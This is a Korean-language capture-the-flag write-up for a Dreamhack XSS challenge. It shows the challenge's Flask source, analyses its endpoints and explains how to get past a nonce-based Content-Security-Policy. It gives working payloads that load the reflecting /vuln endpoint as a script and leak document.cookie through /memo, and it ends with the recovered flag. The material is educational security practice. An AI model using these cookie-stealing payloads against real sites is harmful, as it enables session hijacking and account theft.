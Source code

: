 ```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response


@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```
## 엔드포인트 분석  
1. '/'  
-> 메인페이지 html 파일 render
2. '/vuln'  
-> param에서 특정 값을 넣어서 나오는 결과값을 return 한다.  
3. '/flag'  
-> param에서 특정 값을 얻어서 **check_xss** 에 넣어서 **xss를 필터링** 한다. 또한 **nonce** 값도 확인한다.  
4. '/memo'  
-> memo에서 특정 값을 작성한다.  
## 주요 함수 분석  
1. check_xss  
-> 입력받은 param을 이용해 URL을 만들어서 접근함  
2. add_header  
-> **@app.after_request** 를 통해 매 http 요청이 끝나고 브라우저에 응답하기 전에 실행하는 함수이고, 응답 헤더에 **CSP에 대한 내용과 nonce** 를 추가한다.  
(https://blusky10.tistory.com/entry/FlaskHTTP-%EC%9A%94%EC%B2%AD%EC%97%90-%EB%8C%80%ED%95%9C-%ED%95%B8%EB%93%A4%EB%9F%AC)  

## 문제 모습  
이전 문제인 **XSS Filtering Bypass Advanced** 와 동일함  
<img src="1.jpg">  

## 문제 해결  
**add_header** 함수를 자세히 보면, 어떤 출처의 자원을 사용할 수 있는지 알 수 있다.  
여기에서 사용할 것은 **script** 입니다.  
다만, CSP는 일반적으로 인라인코드를 허용하지 않습니다.  
따라서 다음과 같이 script를 사용할 수 있습니다.  
```html
<script src="alert(1)"></script>
```
이렇게 **src** 를 이용해 상대 경로로 script를 실행할 수 있습니다.  

그러나 위처럼 적으면 실행이 되지 않는다.  
찾아봤을 때, 아래와 같이 경로를 적어줘야 한다고 한다.  

```html
<script src="/vuln?param=alert(1)"></script>
```
(https://dreamhack.io/wargame/writeups/17495)
(https://dreamhack.io/wargame/writeups/9651)

<img src="2.jpg">  

즉, 이를 바탕으로 script 를 만들면 다음과 같다.  
```html
<script src="/vuln?param=location.href='/memo?memo='+document.cookie"></script>
```
그러나 이렇게 제출했는데, 답이 나오지 않았다.  

<img src="3.jpg">  

burp swite 로 확인한 결과, **+** 가 빠져있는 것을 볼 수 있었다.  
이유를 찾아보니, **+** 를 URL decode 하면, **공백** 으로 처리한다고 한다.  
따라서 + 를 인코딩한 상태인 **%2B** 를 넣어야한다.  

```html
<script src="/vuln?param=location.href='/memo?memo='%2Bdocument.cookie"></script>
```

<img src="4.jpg">  

따라서 정답은 **DH{81e64da19119756d725a33889ec3909c}** 이다.